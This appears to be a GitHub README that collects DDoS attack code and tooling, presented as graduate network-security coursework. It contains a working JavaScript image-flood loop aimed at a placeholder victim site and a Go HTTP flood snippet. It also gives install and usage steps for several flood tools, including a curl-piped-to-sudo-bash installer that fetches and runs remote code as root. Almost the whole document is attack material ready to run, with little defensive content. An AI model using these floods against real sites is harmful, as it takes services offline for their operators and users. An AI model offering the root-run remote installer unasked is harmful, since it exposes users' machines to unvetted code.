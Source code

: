 # DDoS
Snippets of code and resources related to DDoS attacks for graduate coursework on network security

 ![DDoS All The Things](/logo.jpg)

  ![DDoS All The Things](/logo-02.jpg)

   ![DDoS All The Things](/logo-03.png)

## Table of Contents

- [imgflood](#imgflood-Layer-7-flood-attack)
- [Raven-Storm Toolkit](#Raven-Storm-Toolkit)
- [ufonet](#ufonet)
- [DDoS Infinite HTTP GET](#DDoS-Infinite-HTTP-GET)
- [Golang-httpflood](#Golang-httpflood)
- [DDoS-Ripper](#DDoS-Ripper)
- [DDoS Scripts](#DDoS-Scripts)

## imgflood Layer 7 flood attack
- Link: [An introduction to JavaScript-based DDoS](https://blog.cloudflare.com/an-introduction-to-javascript-based-ddos/)

```
function imgflood() {
  var TARGET = 'victim-website.com'
  var URI = '/index.php?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```

## Raven-Storm Toolkit
- Link: [Raven-Storm Toolkit GitHub](https://github.com/Taguar258/Raven-Storm)

```
curl -s https://raw.githubusercontent.com/Taguar258/Raven-Storm/master/install.sh | sudo bash -s
```

## ufonet
- Link: [ufonet GitHub](https://github.com/epsylon/ufonet)

You can automatically get all required libraries using (as root):
```
python3 setup.py install
```
For manual installation, on Debian-based systems (ex: Ubuntu), run:
```
sudo apt-get install python3-pycurl python3-geoip python3-whois python3-crypto python3-requests python3-scapy libgeoip1 libgeoip-dev
```
On other systems such as: Kali, Ubuntu, ArchLinux, ParrotSec, Fedora, etc... also run:
```
pip3 install GeoIP
pip3 install python-geoip
pip3 install pygeoip
pip3 install requests
pip3 install pycrypto
pip3 install pycurl
pip3 install whois
pip3 install scapy-python3
```

## DDoS Infinite HTTP GET
- Link: [DDoS HTTP GET GitHub](https://github.com/Konstantin8105/DDoS)

```
func main() {
	workers := 100
	d, err := ddos.New("http://127.0.0.1:80", workers)
	if err != nil {
		panic(err)
	}
	d.Run()
	time.Sleep(time.Second)
	d.Stop()
	fmt.Println("DDoS attack server: http://127.0.0.1:80")
	// Output: DDoS attack server: http://127.0.0.1:80
}
```

## Golang-httpflood
- Link: [Golang-httpflood GitHub](https://github.com/Leeon123/golang-httpflood)

Install Golang
[Golang Download & Installation](https://go.dev/doc/install) 

Change Linux Resource Limit
```
ulimit -n 999999
```

Clone Repo
```
git clone https://github.com/Leeon123/golang-httpflood.git
```

Header.txt format
```
Accept: text/html
User-agent: Wget
Referer: http://google.com
```

Usage
```
cd golang-httpflood
go build httpflood.go
./httpflood  <url> <threads> <get/post> <seconds> <header.txt/nil>
```

## DDoS-Ripper
- Link: [DDoS-Ripper GitHub](https://github.com/palahsu/DDoS-Ripper)

```
sudo apt install git 
git clone https://github.com/palahsu/DDoS-Ripper.git 
cd DDoS-Ripper 
$ ls 
$ python3 DRipper.py OR python2 DRipper.py
```

## DDoS Scripts
- Link: [DDoS Scripts GitHub](https://github.com/PraneethKarnena/DDoS-Scripts)